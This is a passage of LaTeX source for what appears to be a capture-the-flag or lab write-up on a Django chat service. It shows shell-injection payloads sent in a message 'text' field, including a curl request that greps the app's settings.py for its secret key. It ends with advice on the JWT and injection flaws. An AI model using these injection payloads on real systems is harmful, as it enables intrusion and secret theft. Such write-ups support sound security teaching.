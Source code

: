 \documentclass[12pt,a4paper]{article}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\begin{enumerate}
	 \code{chat,db.sqlite3,manage.py,requirements.txt,static,venv}
	 
	 \item By adjusting the command to
	 
	 \code{text=\textbackslash background \$(ls\$IFS"chat"|tr\$IFS"\textbackslash n"\$IFS",")}

	  one can see that there is a file called \code{settings.py} in the \code{chat} folder.
	 
	 \item Finally, expose the contents of the \code{settings.py} file with the following terminal command:
	 
	 \begin{verbatim}
		 curl https://web.netchat/api/messages/ --insecure
		 --data 'text=\background $({grep,SECRET,chat/settings.py})'
		 -H 'Authorization: JWT ADMIN_TOKEN'
	 \end{verbatim}
	 
	 Request the CSS layout with the command mentioned in step 2 to retrieve the secret key:
	 
	 \begin{verbatim}
	 	"li { \n\tborder: red;\n\tbackground: SECRET_KEY =
	 	'Congratulations you just compromised the highly
	 	secure super duper secret key !' ;\n}\n"
	 \end{verbatim}
	 
	 Another interesting approach would be to open a reverse shell using the shell injection and access the key directly.
	 
\end{enumerate}




\section{Mitigation}

The JWT vulnerability can be solved by disallowing clients to choose an algorithm, especially disallowing the 'none' algorithm. Additionally, all dependencies should be kept up to date to prevent other vulnerabilities.

The bash injection vulnerability can be prevented by properly sanitizing the user input and by disabling the shell access. A nicer solution would be to prevent the use of subprocesses completely and instead manage the color configuration within Django, e.g. by writing the values to the database and dynamically parse the website using a templating system.
\end{document}
